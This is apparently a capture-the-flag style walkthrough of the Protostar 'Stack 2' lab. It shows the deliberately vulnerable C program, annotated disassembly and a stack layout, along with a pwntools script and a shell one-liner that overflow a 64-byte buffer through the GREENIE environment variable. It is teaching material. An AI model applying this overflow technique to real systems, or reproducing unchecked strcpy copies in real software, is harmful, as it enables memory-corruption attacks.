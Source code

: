 
# Stack 2

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Goal: Modify the content of the variable 'modified' with 0x0d0a0d0a 


# Static analysis : 

```asm
0x08048494 <main+0>:	push   ebp
0x08048495 <main+1>:	mov    ebp,esp
0x08048497 <main+3>:	and    esp,0xfffffff0
0x0804849a <main+6>:	sub    esp,0x60
0x0804849d <main+9>:	mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:	call   0x804837c <getenv@plt>
0x080484a9 <main+21>:	mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:	cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:	jne    0x80484c8 <main+52>
0x080484b4 <main+32>:	mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:	mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:	call   0x80483bc <errx@plt>
0x080484c8 <main+52>:	mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:	mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:	mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:	lea    eax,[esp+0x18]       <----4) eax points on [esp+0x18]
0x080484dc <main+72>:	mov    DWORD PTR [esp],eax      <--- 3) first argument of strcpy 'buffer' points on eax
0x080484df <main+75>:	call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:	mov    eax,DWORD PTR [esp+0x58]    <---2)  'modified' buffer start at [esp+0x58]
0x080484e8 <main+84>:	cmp    eax,0xd0a0d0a            <-- 1) value taken by 'modified' is store in eax
0x080484ed <main+89>:	jne    0x80484fd <main+105>
0x080484ef <main+91>:	mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:	call   0x80483cc <puts@plt>
0x080484fb <main+103>:	jmp    0x8048512 <main+126>
0x080484fd <main+105>:	mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:	mov    eax,0x8048641
0x08048506 <main+114>:	mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:	mov    DWORD PTR [esp],eax
0x0804850d <main+121>:	call   0x80483ac <printf@plt>
0x08048512 <main+126>:	leave  
0x08048513 <main+127>:	ret 

```

The stack look like this

```
  |  |                     |
  |  |     modified        | 
  |  |                     | 
  |  |---------------------|esp+0x58 (esp+88)
  |  |                     |
  |  |       buffer        |   
  |  |                     |
  |  |---------------------|esp+0x18  (esp+24)
  |  |      ...            |
  |  |---------------------| <-- esp 
  v

```

We can modify the content of the variable 'modified' since 'buffer' is located before 'modified' on the stack.

Let's how calculate how many bytes we should write in 'buffer' to overwrite 'modified' : 
``` 
    0x58 - 0x18 = 64 

```
We need to fill 'buffer' with 64 bytes and then we can overwrite 'modified'


This time the vulnerability comes from the function 'strcpy', actually there isn't any check on the length of 'variable' (which is a copy of the environnement variable called 'GREENIE') before the  copy of it in 'buffer'.


  

# Script


```python
from pwn import *

r = ssh(host='192.168.160.128', user='user', password='user')

payload =b'A'*64 + p32(0x0d0a0d0a) 

sh = r.run('/opt/protostar/bin/stack2', env={'GREENIE':payload})

print(sh.recvline().decode())

```
And we got our response : 


![](win_mess.png)



If you prefered to do the exploit directly on the protostar vm you can do like this : 

```
user@protostar:~$ export GREENIE=`python -c "print 'A'*64 + '\x0a\x0d\x0a\x0d'"`
user@protostar:~$ /opt/protostar/bin/stack2
you have correctly modified the variable

```


Thank you for reading and hope you learn something ! 

